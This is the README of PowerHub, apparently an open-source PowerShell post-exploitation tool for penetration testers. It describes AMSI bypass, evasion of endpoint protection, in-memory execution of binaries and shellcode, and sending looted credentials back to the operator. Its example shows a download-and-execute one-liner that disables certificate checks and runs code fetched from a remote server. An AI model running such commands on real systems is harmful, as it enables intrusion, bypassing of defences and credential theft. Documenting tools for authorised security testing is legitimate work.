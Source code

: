 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs

![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

* **Installation:** <https://adrianvollmer.github.io/PowerHub/latest/installation.html>
* **Usage:** <https://adrianvollmer.github.io/PowerHub/latest/usage.html>
* **Contributing:** <https://adrianvollmer.github.io/PowerHub/latest/contrib.html>
* **Changelog:** <https://adrianvollmer.github.io/PowerHub/latest/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2023. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
